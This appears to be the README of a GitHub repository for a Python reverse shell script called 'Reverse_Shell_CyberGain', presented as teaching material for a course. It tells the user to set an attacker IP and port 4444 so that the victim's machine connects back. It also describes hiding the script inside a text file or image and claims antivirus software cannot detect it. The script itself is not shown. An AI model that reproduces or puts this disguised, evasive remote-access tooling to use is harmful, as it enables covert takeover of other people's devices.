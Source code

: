 # Reverse_Shell_CyberGain
Today we have a special script for CyberGain students. Students will learn how to do some cyber attacks that include taking the shell of the victim's device and merging a .txt file or a merged image with this file.

Be sure that Python is present on the victim's machine. 80% of Windows machines have Python installed.
Also, before you do the trick that we will use, change the IP that the script will connect to, in line 8 you can open the file with .txt or in kali linxu by using nano Reverse_Shell_CyberGain.py

HOST = '<Attacker IP ADDRESS>' #Attacker_Machine_IP
PORT = 4444 #Port Listner Attacker

All antivriruses will not be able to recognize the shell that the tool is capable of. I was careful to do this step. you can understand the script and create similar to it and post it in ur Github account 
The copyright only for CyberGain Students
HF <3
